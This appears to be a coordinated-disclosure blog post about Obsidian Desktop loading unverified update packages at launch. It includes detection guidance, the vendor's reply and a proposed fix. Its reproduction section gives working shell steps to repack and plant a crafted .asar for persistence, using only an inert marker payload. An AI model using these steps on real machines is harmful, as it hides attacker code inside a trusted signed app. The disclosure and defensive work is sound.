






## TL;DR

- Obsidian Desktop's own auto-updater verifies SHA-256 + RSA-SHA256 signature **only when it downloads** a new package.
- At every app launch, the loader (`main.js` inside `app.asar`) picks whatever `obsidian-*.asar` file it finds in the user's data directory with the highest version **parsed from the filename**, and `require()`s it — no re-verification.
- Confirmed against a real, running Obsidian process with a non-destructive PoC: a crafted package with an arbitrary version string loaded and executed, logged, restored cleanly.
- Reported through coordinated disclosure. Obsidian's position: this requires code already running locally, so it isn't a vulnerability. I don't fully agree, and I'll explain why below.

## Why this matters

Electron apps that ship their own update mechanism are, in effect, running a second trust system next to the one macOS/Windows/Linux already give you via code signing. If that second system only checks integrity at the front door (download) and not at the door it actually matters (load and execute), the front-door check is theater. Anyone who can already write to the app's own data directory — malware running as you, or a compromised/malicious community plugin, which in Obsidian runs with full Node.js access by design — can hand the real, signed, notarized Obsidian binary a package it never downloaded, never verified, and will run anyway.

<figure>

<figcaption>Fig 1. Where Gatekeeper's control ends and Obsidian's own, unverified decision begins.</figcaption>
</figure>

## The defect

Obsidian's updater has two relevant functions in the shim bundled inside `Resources/app.asar`:

- **`downloadUpdate()`** — fetches the update, computes SHA-256, verifies an RSA-SHA256 signature against an embedded certificate (Dynalist Inc., valid 2016–2040). If it passes, writes `obsidian-<version>.asar` into `app.getPath('userData')`.
- **`loadApp(asarPath)`** — on every launch: scans `userData` for files matching `obsidian-*.asar`, picks the one with the highest version **extracted from the filename itself**, and does `require(path.join(asarPath, 'main.js'))`. No hash check. No signature check. Just a `require()`.

The integrity control lives entirely in `downloadUpdate()` — the network path. The actual trust decision — which code the main Electron process is about to execute — lives in `loadApp()`, and nothing protects it. A filename is the only thing standing between "verified update" and "arbitrary code in the signed, notarized process."

<figure>

<figcaption>Fig 2. loadApp(), extracted straight from the shipped main.js — require() and nothing else.</figcaption>
</figure>

It's also worth noting Electron ships native protection for exactly this scenario — the `OnlyLoadAppFromAsar` and `EnableEmbeddedAsarIntegrityValidation` fuses. Checked with the official tooling:

```bash
npx --yes @electron/fuses read --app "/Applications/Obsidian.app"
```

```
OnlyLoadAppFromAsar is Disabled
EnableEmbeddedAsarIntegrityValidation is Disabled
```

Neither is enabled. Obsidian's own updater logic and Electron's native equivalent both leave this door open.

<figure>

<figcaption>Fig 3. Electron's own fuses, read with the official @electron/fuses CLI — anyone can reproduce this against their own install.</figcaption>
</figure>

## Reproducing it

This is the generic shape of the PoC — a single, inert marker, no payload with any real capability. Paths below are placeholders; fill in your own.

```bash
# 1. Copy the legitimate, already-cached update package (never touch the original)
cp "$HOME/Library/Application Support/obsidian/obsidian-<version>.asar" ./demo.asar
npx --yes @electron/asar extract ./demo.asar ./demo-extracted

# 2. Prepend one benign, non-destructive line to its main.js
MARKER='try{require("fs").writeFileSync("/tmp/poc-marker.txt","executed at "+new Date().toISOString()+" pid="+process.pid+"\n");}catch(e){}'
printf '%s\n' "$MARKER" | cat - ./demo-extracted/main.js > /tmp/m.js && mv /tmp/m.js ./demo-extracted/main.js

# 3. Repack with an arbitrary, unsigned version string
npx --yes asar@3 pack ./demo-extracted ./obsidian-99.99.99.asar

# 4. Drop it where the loader looks, and launch the real app
cp ./obsidian-99.99.99.asar "$HOME/Library/Application Support/obsidian/"
open -a Obsidian
```

**Result**, straight from `obsidian.log`:

```text
Loaded updated app package .../obsidian-99.99.99.asar
```

<figure>

<figcaption>Fig 4. obsidian.log loading the crafted package, then the legitimate one again after restoration.</figcaption>
</figure>

And the marker file, written from inside the real, running Obsidian process — its PID matched `pgrep`'s output for the actual app at that moment:

<figure>

<figcaption>Fig 5. Marker written from inside the real process — pid in the marker matches pgrep's output for the live Obsidian process.</figcaption>
</figure>

Cleanup is just: quit, delete the crafted `.asar`, relaunch, confirm the log goes back to loading the legitimate version. The original package's hash never changes throughout.

<figure>

<figcaption>Fig 6. Restoration confirmed — legitimate package reloaded, app left closed like it was found.</figcaption>
</figure>

## What this actually buys an attacker

I'm deliberately not detailing the full capability chain here. The short version: once arbitrary code runs inside Obsidian's main Electron process, it has the same Node.js access the app itself has — no sandbox, no capability restriction specific to this code path. That's enough to read and write anything the OS user can reach, run arbitrary commands, and reach the network. I'm not publishing the script that proves it — but I did run it, against the real process, with inert test values only:

```text
OBS-MACOS-001 advanced PoC — 2026-11-07T19:52:14.780Z pid=89101
[fs]            wrote+read synthetic secret file -> FAKE_API_KEY=not-a-real-secret-12345
[child_process]  whoami=<local-user>
[child_process]  uname=Darwin <redacted-hostname>.local 27.0.0 Darwin Kernel Version 27.0.0: Tue Aug 11 21:02:59 PDT 2026; root:xnu-13432.1.9~1/RELEASE_ARM64_T8142 arm64
[net]            sent test payload to 127.0.0.1:51234
```

`fs` wrote and read back a file. `child_process` ran `whoami`/`uname -a` and got the real output. `net` opened a loopback connection that a listener I controlled actually received. All three, under the PID of the real, running Obsidian process. Username and hostname redacted above; everything else is unmodified output.

The realistic delivery vector isn't "malware that already has full code execution" — it's a malicious or compromised community plugin, which in Obsidian already runs with full Node.js access (`contextIsolation: false`, `nodeIntegration: true`, confirmed on every window I checked, not just the main one).

I didn't want to just assert the "survives its own removal" part, so I tested it directly: a benign test plugin, in an isolated profile, whose only job was to drop the crafted asar into `userData` on load. I let it run once, then deleted the plugin's entire directory and removed it from the enabled list — a real, complete uninstall, nothing left on disk. On the next launch, with the plugin gone entirely:

```text
2026-11-10 00:24:41 Loaded updated app package .../obsidian-99.99.99.asar
```
```text
asar main.js executed at 2026-11-10T00:24:41.542Z pid=17846
```

Same PID as the live process at that moment. The plugin was gone; the code it dropped wasn't.

This is also where "users are responsible for the plugins they install" stops being a complete answer. That principle assumes uninstalling a bad plugin removes the risk it introduced — notice it misbehaving, pull it, move on. Here it doesn't. The payload it dropped keeps loading and executing on every future launch with zero plugin, malicious or otherwise, involved at all. Plugin vetting is necessary; it was never going to be sufficient against this specific bug, because the thing re-loading the payload isn't the plugin system — it's Obsidian's own updater, and it doesn't check who put a file in `userData` before trusting it.

## Disclosure timeline

| Date | Event |
|---|---|
| 2026-11-04 | Reported to `support@obsidian.md`, full technical writeup, PoC against Obsidian 1.12.7, 90-day coordinated disclosure window proposed |
| 2026-11-05 | Obsidian asked for a retest against the current release (1.15.0) |
| 2026-11-05 | Retest confirmed: official, unmodified 1.15.0 installer, isolated profile, same result |
| 2026-11-06 | Follow-up: flagged the realistic ceiling (`fs`/`child_process`/`net`, `@electron/remote` in active use) |
| 2026-11-07 | Follow-up: confirmed those primitives directly, non-destructively; flagged `nodeIntegration`/`contextIsolation` across all windows |
| 2026-11-09 | Obsidian's final position: not treated as a vulnerability |

## Obsidian's response

> We don't treat these as vulnerabilities in Obsidian. The updater issue needs code that is already running on the device with the user's own permissions. Anyone who has that can already read and change the same files and run programs.
>
> The window settings are a trade-off. Community plugins need Node access to do what people rely on them for, and closing that off would add friction for most users. Instead, Obsidian starts in Restricted Mode, warns before plugins are turned on, and warns before opening certain files that can run code.

That's a coherent, defensible position, and I want to be fair to it: Obsidian engaged seriously, asked for a retest, read the follow-ups, and gave a real technical reason instead of a form rejection. I just don't think "requires local write access" should be disqualifying on its own.

## Where I disagree

"Requires code already running locally" is true, and it's also not the point. Initial access and persistence are different problems, and this bug lives entirely in the second one.

Nobody gets local code execution *because of* this bug. They get it from something else entirely — a phishing payload, a malicious npm package three dependencies deep, a compromised plugin from any one of a dozen ecosystems, an unrelated local privilege issue. That part is already somebody else's CVE, somebody else's incident. What this bug determines is what happens *next*: once that first foothold exists, does the attacker's code have to keep running as its own, flaggable, unsigned process — or can it disappear into a binary your EDR already trusts?

That's the actual severity question, and it has nothing to do with how the attacker got in. A SOC that allowlists or de-prioritizes activity from a signed, notarized Obsidian.app isn't being careless — that's a completely reasonable baseline. This bug is exactly what breaks that baseline quietly: the process launching network connections, spawning children, reading files is still, as far as every log and every EDR heuristic is concerned, *Obsidian*. No new binary drops. No signature mismatch. No parent-child anomaly pointing at an unsigned blob. The correlation a SOC depends on to connect "something bad happened" to "here's the artifact that did it" just isn't there.

## Detection and defense

I'm not writing this section as an attacker's playbook — the point is the opposite: this is specifically the kind of gap a blue team can close with detection, independent of whether or when Obsidian ever fixes the root cause.

**ATT&CK mapping:** this fits [T1554 — Compromise Client Software Binary](https://attack.mitre.org/techniques/T1554/) (persistence/defense-evasion by patching a trusted binary's load path rather than dropping a new one), with a side of [T1036 — Masquerading](https://attack.mitre.org/techniques/T1036/) in spirit, since the "malicious" artifact is a file that looks exactly like a legitimate update.

**Why it's a blind spot by default:** code-signing-based trust (allowlisting, EDR heuristics that weight signed/notarized binaries as lower-risk) evaluates the *outer* binary — `Obsidian.app` itself, correctly signed — not the code it loads at runtime from its own data directory. Nothing about this technique trips a signature check, because no signature check happens at load time in the first place.

**What actually catches it:**

- File integrity monitoring on `~/Library/Application Support/obsidian/` (or the equivalent on Windows/Linux) for `obsidian-*.asar` files appearing or changing outside of a normal update flow. This directory should be low-churn; alert on writes to it from anything other than the Obsidian process itself.
- Flag `obsidian-*.asar` filenames whose version string doesn't correspond to any version Obsidian has actually published — the loader trusts the filename, so an anomalous one (`obsidian-99.99.99.asar`, in this PoC) is the cheapest possible indicator.
- Baseline what Obsidian's main process normally does — it doesn't typically spawn shell children or open arbitrary outbound TCP connections. A `child_process` fork or an unexpected `connect()` from `Obsidian`/`Obsidian Helper` is worth an EDR rule on its own, independent of this specific bug.
- Periodically hash the `obsidian-*.asar` actually present in `userData` against the hash of the version Obsidian's own changelog says is current. A mismatch means something other than the updater wrote that file.

None of this requires Obsidian to ship a fix. It's the kind of coverage that should exist for any Electron app's auto-update directory, because the failure mode — trusted binary, untrusted payload, no re-verification at load — is not unique to Obsidian.

## Proposed severity

`AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` — High under CVSS 3.1, with `UI:N` rather than `UI:R` on the reasoning that a restart is a normal lifecycle event, not user interaction directed at the attack (the same argument Trail of Bits made for CVE-2025-55305). CWE-345 (Insufficient Verification of Data Authenticity) and/or CWE-494 (Download of Code Without Integrity Check) both apply.

## What should actually change

Move the hash/signature check from `downloadUpdate()` to `loadApp()` — verify the package that's about to be `require()`'d, not just the one that was downloaded. That's the whole fix. Enabling Electron's native `OnlyLoadAppFromAsar` / `EnableEmbeddedAsarIntegrityValidation` fuses would help too, independent of the custom updater logic.

## Closing

Vendors get to decide what they fix and what they don't — that's their call to make, and Obsidian made it with a real technical argument, not a brush-off. Where this leaves things: a documented, reproducible gap in how a signed, widely-used Electron app decides what code to trust at launch, a clear explanation of why "needs local access" undersells the actual risk, and enough detection guidance that it's useful to defenders regardless of what happens with the report. That's a complete piece of research whether or not a CVE number ever gets attached to it. If you think the severity call is wrong in either direction, say so in the comments.
